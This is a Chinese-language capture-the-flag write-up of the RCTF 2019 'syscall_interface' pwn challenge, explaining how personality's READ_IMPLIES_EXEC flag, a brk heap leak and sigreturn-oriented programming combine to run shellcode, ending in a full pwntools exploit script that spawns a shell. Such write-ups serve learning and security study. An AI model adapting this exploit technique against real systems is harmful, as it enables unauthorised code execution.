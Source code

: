 ```yaml
---
title: RCTF2019_syscall_interface
date: 2019-05-29 22:56:48
tags: shellcode
layout: default
---
```

复现 syscall_interface. 
<!--more-->
# syscall_INTERFACE 
[bianry][2]
题目提供了syscall的借口但是只有一个可用参数
禁止用[0x38,0x3b]的调用
全保护
对系统调用的熟悉程度或者说是学习能力比较重要.
发现自己还是知道的太少了.
本篇无干货建议移步原文.
比赛的时候没做出来赛后看的`balsn`的[write_up][1]
TQL 这个思路很奇妙
# personality
135号调用一个参数：`unsigned int personality`
查看手册`http://man7.org/linux/man-pages/man2/personality.2.html`
```c
READ_IMPLIES_EXEC (since Linux 2.6.8)
With this flag set, PROT_READ implies PROT_EXEC for mmap(2).
```
这个调用可以设置程序的一些...personality?
真有那么好的事情吗...`read`就是`exec`试试看.
```c
//https://code.woboq.org/userspace/glibc/sysdeps/unix/sysv/linux/sys/personality.h.html
enum
{
UNAME26 = 0x0020000,
ADDR_NO_RANDOMIZE = 0x0040000,
FDPIC_FUNCPTRS = 0x0080000,
MMAP_PAGE_ZERO = 0x0100000,
ADDR_COMPAT_LAYOUT = 0x0200000,
READ_IMPLIES_EXEC = 0x0400000,
ADDR_LIMIT_32BIT = 0x0800000,
SHORT_INODE = 0x1000000,
WHOLE_SECONDS = 0x2000000,
STICKY_TIMEOUTS = 0x4000000,
ADDR_LIMIT_3GB =         0x8000000
};
```
测试代码/main.c
```c
#include<stdio.h>
#include<stdlib.h>
int main()
{
__asm__(
"xor %rax,%rax\t\n"
"mov $135,%rax\t\n"
"xor %rdi,%rdi\t\n"
"mov $0x400000,%rdi\t\n"
"syscall"
);
char *a=malloc(0x100);

}
//gcc main.c -o main
```
gdb调戏之
```s
0x00600000         0x00601000         r--p    /home/n132/Desktop/main
0x00601000         0x00602000         rw-p    /home/n132/Desktop/main
0x00602000         0x00623000         rwxp    [heap]
0x00007ffff7a0d000 0x00007ffff7bcd000 r-xp    /lib/x86_64-li
```

发现之后申请的可读内存是可以执行的.
太强了...这个系统调用我见都没见过...


# brk
这个相对熟悉，比赛时也想到了用来泄漏`heap`地址之后因为时行缓冲所以我们的输入会在`heap`（如果参数小于当前brk尝试收缩，无法收缩则返回当前brk,大于则尝试拓展）。

可以去`/mm/mmap.c`里看看实现.
# sys_rt_sigreturn

在`SROP`中学习过一些皮毛.如果可以控制栈可以控制执行流.
因为`set_name`功能可以控制一定栈内容 恰好`RIP`，`csgsfs`都在比较考前的位置.所以可以用`set-name`设置
继而利用`sys_rt_sigreturn`控制`RIP`


# 思路
balsn的做法真的非常精妙.
总的是利用`brk`泄漏地址，`personality`使得`heap`可以执行，`sys_rt_sigreturn`控制执行流.
具体是:
* `personality` 参数为0x400000,`printf`时调用`malloc`,堆可执行.
* `brk`泄漏堆地址.
* `set_name`预设好`rip`和`shellcode`（别忘记设置`csgsfs`）
* 随便调用一个系统调用 利用`printf`将 `shellcode`打到`heap`上
* 调用`sys_rt_sigreturn`

# exp
```python
from pwn import *
def cmd(c):
p.sendlineafter("ice:",str(c))
def set_name(n):
cmd(1)
p.sendafter("name:",n)
def sys(rax,rdi):
cmd(0)
p.sendlineafter("ber:",str(rax))
p.sendlineafter("ment:",str(rdi))
#context.log_level='debug'
p=process('./syscall_interface')
context.arch='amd64'

sys(135,0x0400000)#0
sys(12,0)#1

p.readuntil("RET(")
base=int(p.readuntil(")")[:-1],16)-(0x0000555555778000-0x0000555555757000)
log.info(hex(base))
#rbp rbx rdx rax rcx rsp rip
rbp=base
sh="""
pop rbx
mov rsi,rsp
push rsi
syscall
ret
"""
sig=asm(sh).ljust(0x10,'\x90')+p64(0x100)+p64(0)+p64(0)+p64(base+0x100)+p64(base+0x40)+p64(0)+p64(0x33)
set_name(sig)

sys(12,0)
#gdb.attach(p,'b *0x000555555554EC8')
sys(15,0)#base-0x1000+0x10-0x60)#0

p.send(asm(shellcraft.sh()))

p.interactive()
```


# summary
比赛的时候就去找一个参数或者0参数的系统调用发现了`brk`和`sigret`但是感觉没啥用泄漏的不是libc地址.
差了`personality`，走歪了一直想办法泄漏`libc`地址

但是即使发现了`personality`的0x400000我感觉这样的利用方式我目前的实力还是有差距.
还是知识面太窄了太菜了.
`balsn`太强了
`2019`太强了



[1]: https://balsn.tw/ctf_writeup/20190518-rctf2019/#syscall_interface
[2]: https://github.com/n132/Watermalon/tree/master/RCTF-2019/pwn/syscall_interface

